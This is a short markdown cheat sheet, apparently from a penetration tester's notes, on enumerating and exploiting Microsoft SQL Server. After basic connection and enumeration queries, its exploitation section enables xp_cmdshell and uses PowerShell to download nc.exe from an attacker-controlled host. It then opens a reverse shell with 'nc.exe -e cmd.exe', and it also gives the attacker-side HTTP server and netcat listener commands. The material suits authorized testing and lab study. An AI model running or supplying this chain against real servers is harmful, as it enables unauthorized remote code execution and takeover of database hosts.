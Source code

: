 #Database 
## Info
- **Type:** Relational Database Management System (RDBMS)
- **Common Usage:** Enterprise applications, web applications, Windows-based infrastructure
- **Security Note:** MSSQL servers may be vulnerable to **default credentials, weak authentication, XP_CMDSHELL abuse, and privilege escalation attacks**.

## Basic Commands

```bash
# Connect using authentication
mssqlclient.py $USER@$IP -windows-auth

# Connect using SQL authentication
mssqlclient.py $USER:$PASSWORD@$IP
```

```sql
# List databases
SELECT name FROM master.dbo.sysdatabases;

# Select a database
USE $DATABASE;

# List tables in the current database
SELECT * FROM information_schema.tables;

# List all users
SELECT name FROM master.sys.syslogins;

# Get current user
SELECT SYSTEM_USER;

# Checking Permissions
SELECT IS_SRVROLEMEMBER('sysadmin');
```

## Exploitation

```sql
-- Enable xp_cmdshell
EXEC sp_configure 'show advanced options', 1;  -- Allow advanced options
RECONFIGURE;

EXEC sp_configure 'xp_cmdshell', 1;  -- Enable xp_cmdshell
RECONFIGURE;

-- Test xp_cmdshell
xp_cmdshell "whoami";  -- Check current user
xp_cmdshell "powershell -c pwd";  -- Get current directory

-- Download nc.exe and save to Downloads
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://$HOST/nc.exe -outfile nc.exe";

-- Start reverse shell with nc.exe
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc.exe -e cmd.exe $HOST $PORT";
```

### Attacker Machine
```bash
# Host a file using Python HTTP server
sudo python3 -m http.server 80
```

```bash
# Start a Netcat listener to receive a shell
sudo nc -lnvp $PORT
```
